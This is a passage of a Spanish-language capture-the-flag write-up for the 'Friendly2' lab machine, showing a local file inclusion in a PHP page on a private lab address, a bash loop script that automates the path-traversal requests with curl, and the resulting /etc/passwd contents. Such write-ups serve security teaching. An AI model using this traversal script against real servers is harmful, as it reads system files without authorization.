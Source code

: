 <img class="img" src="/assets/img/machines/Friendly2/4.png" width="800">
Parece ser un php que manda a llamar archivos para mostrarlos.
Al no encontrar mucho intento realizar un LFI y tengo exito.
http://10.0.2.110/tools/check\_if\_exist.php?doc=../../../../../etc/passwd
<img class="img" src="/assets/img/machines/Friendly2/5.png" width="800">
Para explotar esto de manera mas comoda cree el siguiente script en bash.
```bash
#!/bin/bash
while true
do
  read -p "Ruta a buscar: " Myinput
  curl -s -X GET http://$1/tools/check_if_exist.php?doc=../../../../../$Myinput
done
```
El cual se usa de la siguiente forma
```bash
./lfi.sh 10.0.2.110
Ruta a buscar: /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
